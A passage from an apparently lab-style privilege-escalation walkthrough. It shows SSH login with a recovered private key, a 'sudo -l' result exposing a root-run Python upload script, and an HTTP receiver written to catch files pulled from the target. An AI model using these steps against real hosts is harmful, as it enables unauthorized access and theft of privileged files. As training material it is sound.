 ```bash
```

**Now in KALI create a file called** `ralph-key` **and paste the key into it. SSH into the system using ralphs SSH key:**

```bash
$ chmod 600 ralph-key
$ ssh -i ralph-key ralph@192.168.5.122
```

**Run** `sudo -l` **as ralph to see that user ralph can run a specific python script as root:**

```bash
sudo -l
Matching Defaults entries for ralph on ephemeral:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ralph may run the following commands on ephemeral:
    (root) NOPASSWD: /usr/bin/python3 /home/ralph/getfile.py
```

>[!note] 
>Running `sudo /usr/bin/python3 /home/ralph/getfile.py` seems like the script is uploading files... we can't see the source so we are unsure but the parameters are _File Path_ and _IP Address_

**In KALI lets create a python script called** `file_upload.py` **to handle POST requests and receive files, copy the code below:**

```bash
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse
import json

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(b"Hello, this is a GET response!")

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        
        # Process the POST data
        response = {
            'status': 'success',
            'received_data': post_data
        }
        
        self.send_response(200)
        self.send_header('Content-type', 'application/json')
        self.end_headers()
        self.wfile.write(json.dumps(response).encode('utf-8'))

def run(server_class=HTTPServer, handler_class=SimpleHTTPRequestHandler, port=8080):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Starting httpd on port {port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```
